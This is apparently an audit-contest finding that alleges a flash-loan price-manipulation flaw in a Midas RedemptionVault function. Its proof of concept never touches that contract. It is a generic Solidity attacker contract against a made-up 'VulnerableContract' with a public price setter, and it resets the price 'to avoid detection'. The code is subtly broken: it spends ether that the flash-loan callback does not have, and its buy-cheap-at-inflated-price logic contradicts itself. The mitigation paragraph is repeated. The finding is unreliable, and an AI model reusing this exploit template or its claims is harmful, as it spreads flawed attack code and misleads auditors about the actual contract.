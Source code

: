 Sweet Hickory Pangolin

High

# No Protection Against Flash Loan Attacks at redeemInstnt function for RedemptionVault contract

### Summary
Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/RedemptionVault.sol#L124
The contract does not have explicit protections against flash loan attacks, which could allow an attacker to manipulate token prices or exploit the rate conversion logic within a single transaction.

### Root Cause

Price manipulation

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Attacker can manipulate token prices or exploit the rate conversion logic within a single transaction.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IFlashLoanProvider {
    function flashLoan(uint256 amount) external;
}

interface IToken {
    function transfer(address recipient, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

contract VulnerableContract {
    IToken public token;
    uint256 public price; // price of the token in some base currency, e.g., USD

    constructor(IToken _token, uint256 _price) {
        token = _token;
        price = _price;
    }

    function buyToken(uint256 amount) external payable {
        require(msg.value >= amount * price, "Not enough Ether sent");
        token.transfer(msg.sender, amount);
    }

    function updatePrice(uint256 newPrice) external {
        // Assume this function is publicly callable and price is based on an oracle
        price = newPrice;
    }
}
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract FlashLoanAttacker {
    IFlashLoanProvider public flashLoanProvider;
    VulnerableContract public vulnerableContract;
    IToken public token;
    uint256 public amountBorrowed;

    constructor(
        IFlashLoanProvider _flashLoanProvider,
        VulnerableContract _vulnerableContract,
        IToken _token
    ) {
        flashLoanProvider = _flashLoanProvider;
        vulnerableContract = _vulnerableContract;
        token = _token;
    }

    function executeFlashLoan(uint256 amount) external {
        amountBorrowed = amount;
        flashLoanProvider.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external {
        // Manipulate the price in the vulnerable contract
        uint256 inflatedPrice = 1000; // Assume we inflate the price by 1000x
        vulnerableContract.updatePrice(inflatedPrice);

        // Exploit the inflated price to buy tokens at a lower actual value
        uint256 amountToBuy = amount / inflatedPrice;
        vulnerableContract.buyToken{value: msg.value}(amountToBuy);

        // Restore the price to avoid detection
        uint256 normalPrice = 1; // Assume this is the normal price
        vulnerableContract.updatePrice(normalPrice);

        // Repay the flash loan
        token.transfer(address(flashLoanProvider), amount);
    }

    receive() external payable {}
}

```
Deploy VulnerableContract with a normal price of 1 unit.
Deploy FlashLoanAttacker with references to the flash loan provider, the vulnerable contract, and the token contract.
Execute the executeFlashLoan function on the FlashLoanAttacker contract, which will:
Borrow tokens via a flash loan.
Manipulate the price in the vulnerable contract.
Buy tokens at the manipulated price.
Repay the flash loan.
Profit from the price difference.
Summary of the Attack Flow
The attacker borrows tokens through a flash loan.
The attacker inflates the price of the token in the VulnerableContract by manipulating the oracle.
The attacker buys a large amount of tokens at the manipulated price.
The attacker then resets the price to its original value.
The attacker repays the flash loan and profits from the difference in token value.

Security Mitigations: The primary defense against such attacks involves using a reliable oracle that cannot be easily manipulated within a single transaction (e.g., time-weighted average price oracles).
Practical Implementation: In a real-world scenario, this would require integration with existing flash loan providers like Aave, dYdX, or Uniswap, and using actual token contracts.

### Mitigation

Security Mitigations: The primary defense against such attacks involves using a reliable oracle that cannot be easily manipulated within a single transaction (e.g., time-weighted average price oracles).
Practical Implementation: In a real-world scenario, this would require integration with existing flash loan providers like Aave, dYdX, or Uniswap, and using actual token contracts.